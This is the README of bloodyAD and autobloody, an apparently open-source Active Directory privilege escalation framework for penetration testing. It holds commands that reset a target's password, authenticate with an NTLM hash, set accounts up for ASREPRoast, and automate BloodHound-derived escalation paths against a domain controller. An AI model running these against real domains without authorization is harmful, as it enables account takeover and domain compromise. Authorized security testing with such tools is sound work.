# BloodyAD Framework
BloodyAD is an Active Directory Privilege Escalation Framework, it can be used manually using `bloodyAD.py` or automatically by combining `pathgen.py` and `autobloody.py`.

This framework supports NTLM (with password or NTLM hashes) and Kerberos authentication and binds to LDAP/LDAPS/SAMR services of a domain controller to obtain AD privesc.

It is designed to be used transparently with a SOCKS proxy.

## bloodyAD
### Description
This tool can perform specific LDAP/SAMR calls to a domain controller in order to perform AD privesc.

### Requirements
The following are required:
- Python 3
- DSinternals
- Impacket
- Ldap3
Use the requirements.txt for your virtual environment: `pip3 install -r requirements.txt`

### Usage
Simple usage:
```ps1
python bloodyAD.py --host 172.16.1.15 -d MYDOM -u myuser -p :70016778cb0524c799ac25b439bd6a31 changePassword mytarget 'Password123!'
```

List of all available functions:
```ps1
[bloodyAD]$ python bloodyAD.py -h
usage: bloodyAD.py [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-s {ldap,ldaps,rpc}] [--host HOST] {getGroupMembers,
getObjectAttributes, getObjectSID, addUser, addComputer, delObject, changePassword, addObjectToGroup, addForeignObjectToGroup,
delObjectFromGroup, getObjectsInOu, getOusInOu, getUsersInOu, getComputersInOu, addDomainSync, delDomainSync, addRbcd, delRbcd,
addShadowCredentials, delShadowCredentials, modifyGpoACL, setDontReqPreauthFlag, setAccountDisableFlag}
                          ...

Active Directory Privilege Escalation Framework

Main options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -s {ldap,ldaps,rpc}, --scheme {ldap,ldaps,rpc}
                        Use LDAP over TLS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)

Commands:
  {getGroupMembers, getObjectAttributes, getObjectSID, addUser, addComputer, delObject, changePassword, addObjectToGroup,
  addForeignObjectToGroup, delObjectFromGroup, getObjectsInOu, getOusInOu, getUsersInOu, getComputersInOu, addDomainSync,
  delDomainSync, addRbcd, delRbcd, addShadowCredentials, delShadowCredentials, modifyGpoACL, setDontReqPreauthFlag,
  setAccountDisableFlag}   Function to call
```

Help text to use a specific function:
```ps1
[bloodyAD]$ python bloodyAD.py --host 172.16.1.15 -d MYDOM -u myuser -p :70016778cb0524c799ac25b439bd6a31 changePassword -h
usage: 
    Change the target password without knowing the old one using LDAPS or RPC
    Args:
        identity: sAMAccountName, DN, GUID or SID of the target (You must have write permission on it)
        new_pass: new password for the target
    
       [-h] [func_args ...]

positional arguments:
  func_args

optional arguments:
  -h, --help  show this help message and exit
  ```

### How it works
bloodyAD communicates with a DC using mainly the LDAP protocol in order to get information or add/modify/delete AD objects. A password cannot be updated with LDAP, it must be a secure connection that is LDAPS or SAMR. A DC doesn't have LDAPS activated by default because it must be configured (with a certificate) so SAMR is used in those cases.

### Useful commands
```ps1
# Get group members
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes Users member 

# Get minimum password length policy
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' minPwdLength

# Get all users of the domain
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' user

# Get all computers of the domain
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' computer

# Get all containers of the domain
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' container

# Enable DONT_REQ_PREAUTH for ASREPRoast
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x400000

# Disable ACCOUNTDISABLE
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x0002 False
```
## autobloody
### Description
This tool automate the AD privesc between two AD objects, the source (the one we own) and the target (the one we want) if a privesc path exists.
The automation is split in two parts:
- `pathgen.py` to find the optimal path for privesc using bloodhound data and neo4j queries.
- `autobloody.py` to execute the path found with `pathgen.py`

### Requirements
The following are required:
- Python 3
- DSinternals
- Impacket
- Ldap3
- BloodHound
- Neo4j python driver
- Neo4j with the [GDS library](https://neo4j.com/docs/graph-data-science/current/installation/)

### How to use it
First data must be imported into BloodHound (e.g using SharpHound or BloodHound.py) and Neo4j must be running.

Simple usage:
```ps1
pathgen.py -dp neo4jPass -ds 'OWNED_USER@ATTACK.LOCAL' -dt 'TARGET_USER@ATTACK.LOCAL' && autobloody.py -d ATTACK -u 'owned_user' -p 'owned_user_pass' --host 172.16.1.15
```

Full help for `pathgen.py`:
```ps1
$ python pathgen.py -h
usage: pathgen.py [-h] [--dburi DBURI] [-du DBUSER] -dp DBPASSWORD -ds DBSOURCE -dt DBTARGET [-f FILEPATH]

Active Directory Privilege Escalation Framework

optional arguments:
  -h, --help            show this help message and exit
  --dburi DBURI         The host neo4j is running on. Default: localhost.
  -du DBUSER, --dbuser DBUSER
                        Neo4j username to use
  -dp DBPASSWORD, --dbpassword DBPASSWORD
                        Neo4j password to use
  -ds DBSOURCE, --dbsource DBSOURCE
                        Label of the source node
  -dt DBTARGET, --dbtarget DBTARGET
                        Label of the target node
  -f FILEPATH, --filepath FILEPATH
                        File path for the graph path file (default is path.json)
```

Full help for `autobloody.py`:
```ps1
$ python autobloody.py -h
usage: autobloody.py [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-s {ldap,ldaps,rpc}] --host HOST [--path PATH]

Active Directory Privilege Escalation Framework

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -s {ldap,ldaps,rpc}, --scheme {ldap,ldaps,rpc}
                        Use LDAP over TLS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)
  --path PATH           Path file (to generate with pathgen.py)

```

### How it works
First `pathgen.py` generates a privesc path using the Dijkstra's algorithm implemented into the Neo4j's GDS library.
The Dijkstra's algorithm allows to solve the shortest path problem on a weighted graph. By default the edges created by bloodhound don't have weight but a type (e.g MemberOf, WriteOwner). A weight is then added to each edge accordingly to the type of the edge and the type of the node reached (e.g user,group,domain).

Once a path is generated and stored as a json file, `autobloody.py` will connect to the DC and execute the path and clean what is reversible (everything except password change).